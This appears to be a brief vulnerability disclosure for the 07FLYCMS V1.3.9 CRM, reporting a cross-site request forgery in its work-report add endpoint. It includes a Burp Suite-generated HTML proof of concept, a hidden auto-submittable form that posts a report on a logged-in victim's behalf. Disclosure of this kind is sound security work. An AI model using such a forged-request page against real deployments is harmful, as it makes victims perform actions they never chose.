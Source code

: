 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaWorkReport/add.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaWorkReport/add.html" method="POST">
      <input type="hidden" name="name" value="cs" />
<input type="hidden" name="work_type" value="0" />
<input type="hidden" name="start_date" value="2024-10-17" />
<input type="hidden" name="end_date" value="" />
<input type="hidden" name="review_user_id" value="1" />
<input type="hidden" name="send_user_id" value="" />
<input type="hidden" name="send_user_name" value="" />
<input type="hidden" name="content" value="%3Cdiv+id%3D%22translatorExtensionContainer%22+class%3D%22translatorExtension%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+class%3D%22translatorExtension%22+style%3D%22margin%3A0px+auto%3B%22%3E%0D%0A%3C%2Fdiv%3E" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

